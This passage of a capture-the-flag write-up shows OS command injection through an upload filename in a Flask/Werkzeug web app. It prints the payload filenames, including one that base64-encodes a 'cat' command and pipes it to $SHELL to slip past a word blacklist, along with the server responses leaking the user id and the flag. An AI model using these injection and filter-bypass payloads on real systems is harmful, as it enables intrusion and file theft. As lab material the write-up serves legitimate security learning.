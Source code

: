 Once we send the image, the response indicate the webapp run as `user`. Normally we will get `www-data` as user id but luckily the webapp is set to `user` so we dont have to escalate to `user` privilege.

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Thu, 29 Dec 2022 14:40:07 GMT
Content-Type: application/json
Content-Length: 111
Vary: Cookie
Connection: close

{"message":"Invalid file extension: ASCII text\nuid=1001(user) gid=1001(user) groups=1001(user)","status":500}
```
Then I just read the flag by making the filename `test.png&&cat /home/user/user.txt` and I got blocked.

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Thu, 29 Dec 2022 14:45:13 GMT
Content-Type: application/json
Content-Length: 72
Vary: Cookie
Connection: close

{"address":"10.4.11.97","message":"You have been blocked","status":500}
```
Maybe the request have been blocked by WAF or they have blacklists word for filename. I cant even use `bash` or `sh` command, so we need some tricks to bypass the filter. In order to bypass this, I pipe decoded base64 to `$SHELL`(environment variable) to execute the code.

```bash
❯ echo $SHELL       
/usr/bin/zsh

❯ echo "ls" | $SHELL
1.py  2.py  bio.png  test.txt

❯ echo "ls" | base64 -w 0
bHMK

❯ echo bHMK | base64 -d | $SHELL
1.py  2.py  bio.png  test.txt

❯ echo "cat /home/user/user.txt" | base64
Y2F0IC9ob21lL3VzZXIvdXNlci50eHQK
```
Now we can read the flag by simply set the filename as `test.png&&echo Y2F0IC9ob21lL3VzZXIvdXNlci50eHQK | base64 -d | $SHELL` and we are good to go.

```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Thu, 29 Dec 2022 15:03:47 GMT
Content-Type: application/json
Content-Length: 102
Vary: Cookie
Connection: close

{"message":"Invalid file extension: ASCII text\nwgmy{baad129d9b78adf480157bca10d92371}","status":500}

```
